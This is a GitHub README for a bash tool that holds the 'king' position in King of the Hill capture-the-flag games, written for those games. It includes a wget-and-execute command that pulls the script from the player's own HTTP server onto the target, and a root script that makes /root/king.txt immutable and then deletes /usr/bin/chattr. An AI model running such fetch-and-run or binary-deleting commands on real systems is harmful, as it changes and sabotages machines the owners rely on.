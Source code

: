 # koth-protect-king
A script to protect your king in KoTH

# A script to protect your king

## Mode of use 

```
git clone https://github.com/MatheuZSecurity/koth-protect-king 
```

```
cd koth-protect-king && python3 -m http.server 80
```

## In KoTH Machine

```
wget http://youripvpn/king.sh && chmod +x king.sh && ./king.sh
```

#### then you just put your nick and the script already does all the work

![king](https://user-images.githubusercontent.com/88067225/168189766-61b494d2-12e5-4393-beb9-9978a88615f2.png)

#### NOICE: script updates will be made from time to time

---

```shell
#!/usr/bin/env bash
# A script to protect your king in KoTH
# Created by @MatheuzSecurity
# https://youtube.com/c/MatheuZSecurity

if [[ $(id -u) -ne "0" ]]; then
        echo "[ERROR] You must run this script as root" >&2
        exit 1
fi

read -p "Put your nickname: " nick

function protectKing() {
	echo $nick > /root/king.txt
	chmod 400 /root/king.txt
	chattr +i /root/king.txt
	set -o noclobber /root/king.txt
}

arr=('.' '..' '...' '....')

for c in $(seq 1); do
        for elt in ${arr[*]}; do
                echo -ne "\r\033[<1>AProtecting your king $elt" && sleep 0.1;
        done
done

echo -ne "\n"

message="Success! Your king has been protected! =D"

for i in $(seq 1 ${#message}); do
        echo -ne "${message:i-1:1}"
        sleep 0.03
done

echo -ne "\n"

clear

function removeChattr(){
	rm /usr/bin/chattr
}

msg="[*] Success! Binary chattr removed! [*]"

for i in $(seq 1 ${#msg}); do
        echo -ne "${msg:i-1:1}"
        sleep 0.03
done
echo -ne "\n"

protectKing && removeChattr /

echo -ne "\n"
```
